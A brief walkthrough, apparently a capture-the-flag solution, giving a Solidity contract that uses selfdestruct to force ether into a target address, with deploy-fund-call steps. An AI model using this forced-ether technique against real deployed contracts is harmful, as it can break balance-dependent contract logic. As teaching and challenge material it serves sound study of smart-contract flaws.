 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;


contract Exploit {

    receive() external payable{}

    function exploit(address _who) public {
        selfdestruct(payable(_who));
    }
}
```
send it some eth 

call exploit()
